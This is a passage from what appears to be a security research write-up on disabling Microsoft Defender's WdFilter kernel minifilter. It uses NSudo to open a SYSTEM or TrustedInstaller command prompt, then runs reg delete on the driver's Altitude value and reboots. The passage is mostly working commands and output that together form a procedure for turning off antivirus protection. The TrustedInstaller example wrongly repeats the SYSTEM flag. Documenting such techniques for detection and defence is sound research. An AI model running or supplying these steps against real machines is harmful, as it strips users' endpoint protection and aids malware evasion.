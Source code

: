 It is possible to impersonate such privileges to run a Command Prompt with SYSTEM / TrustedInstaller contexts, enabling all privileges and Integrity Levels. Some notable tools that can do this are [NSudo](https://github.com/M2Team/NSudo/releases),  [superUser](https://github.com/mspaintmsi/superUser) and [PSExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec).

In this case, Nsudo has been used to create a cmd.exe process as SYSTEM (S) / TrustedInstaller (T), enabling all privileges (E): 

```
# Run as SYSTEM context
C:\Users\Administrator> "C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64\NSudoLC.exe" -U:S -P:E cmd

OR

# Run as TrustedInstaller context
C:\Users\Administrator> "C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64\NSudoLC.exe" -U:S -P:E cmd

# New command prompt with elevated privileges
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeCreateTokenPrivilege                    Create a token object                                              Enabled
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Enabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled
[snip]
```

Upon attempting to execute the reg.exe command to delete the "Altitude number" regkey associated with the WdFilter driver, it was confirmed that the operation was successful.

```
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> reg delete "HKLM\SYSTEM\CurrentControlSet\Services\WdFilter\Instances\WdFilter Instance" /v Altitude /f
The operation completed successfully.
````

Next, reboot the computer (recommended) or wait a few minutes (inconsistent: ~20 mins) for the changes to take effect.

```
C:\Tools\NSudo_8.2_All_Components\NSudo Launcher\x64> shutdown /r /t 0
```

It is noted that the WdFilter kernel minidriver fails to load on the next reboot because the Altitude registry subkey has been deleted breaking its functionality.
